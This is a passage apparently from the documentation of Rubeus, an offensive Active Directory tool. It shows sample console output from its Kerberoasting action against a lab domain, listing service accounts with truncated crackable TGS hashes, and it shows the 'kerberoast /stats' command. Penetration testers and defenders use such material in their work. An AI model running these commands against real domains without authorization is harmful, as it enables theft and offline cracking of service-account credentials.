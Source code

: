 v1.5.0


 [*] Action: Kerberoasting

 [*] Using 'tgtdeleg' to request a TGT for the current user
 [*] RC4_HMAC will be the requested for AES-enabled accounts, all etypes will be requested for everything else
 [*] Searching the current domain for Kerberoastable users
 [*] Searching for accounts with lastpwdset from 01-31-2005 to 03-29-2010
 [*] Up to 3 result(s) will be returned

 [*] Total kerberoastable users : 3


 [*] SamAccountName : harmj0y
 [*] DistinguishedName : CN=harmj0y,OU=TestOU,DC=theshire,DC=local
 [*] ServicePrincipalName : testspn/server
 [*] PwdLastSet : 5/31/2008 1202 AM
 [*] Supported ETypes : AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96
 [*] Hash : $krb5tgs$23$*harmj0y$theshire.local$testspn/server*$F6EEFE5026CF8F02E3DC...(snip)...


 [*] SamAccountName : constraineduser
 [*] DistinguishedName : CN=constraineduser,CN=Users,DC=theshire,DC=local
 [*] ServicePrincipalName : blah/blah123
 [*] PwdLastSet : 9/5/2009 750 PM
 [*] Supported ETypes : RC4_HMAC
 [*] Hash : $krb5tgs$23$*constraineduser$theshire.local$blah/blah123*$6F0992C377AA12...(snip)...


 [*] SamAccountName : newuser
 [*] DistinguishedName : CN=newuser,CN=Users,DC=theshire,DC=local
 [*] ServicePrincipalName : blah/blah123456
 [*] PwdLastSet : 9/12/2008 816 PM
 [*] Supported ETypes : RC4_HMAC, AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96
 [*] Hash : $krb5tgs$23$*newuser$theshire.local$blah/blah123456*$C4561559C2A7DF07712...(snip)...


List statistics about found Kerberoastable accounts without actually sending ticket requests:

 C:\Rubeus>Rubeus.exe kerberoast /stats

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.5.0


 [*] Action: Kerberoasting

 [*] Listing statistics about target users, no ticket requests being performed.
 [*] Searching the current domain for Kerberoastable users
